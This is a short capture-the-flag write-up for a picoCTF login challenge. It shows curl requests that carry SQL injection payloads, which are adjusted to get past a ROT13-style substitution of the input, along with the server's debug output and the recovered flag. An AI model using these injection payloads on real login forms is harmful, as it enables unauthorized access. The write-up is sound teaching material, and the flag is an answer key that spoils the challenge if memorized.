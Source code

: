 Doing 

```
curl https://jupiter.challenges.picoctf.org/problem/54253/login.php --data "password=teste&debug=1"
```


we can see the password is being encrypted and seems like is someking of substituition cypher

trying a simple sql injection:

```
curl https://jupiter.challenges.picoctf.org/problem/54253/login.php --data "password=' OR 'A'=='A'--&debug=1
```

gives

```
<pre>password: ' OR 'A'=='A'
SQL query: SELECT * FROM admin where password = '' BE 'N'=='N''
```

which means that now we just need to change the OR in our sql for be like:

```
curl https://jupiter.challenges.picoctf.org/problem/54253/login.php --data "password=' be 'A'='A'--&debug=1"
```
and we get

```<pre>password: ' be 'A'='A'--
SQL query: SELECT * FROM admin where password = '' or 'N'='N'--'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}</p>```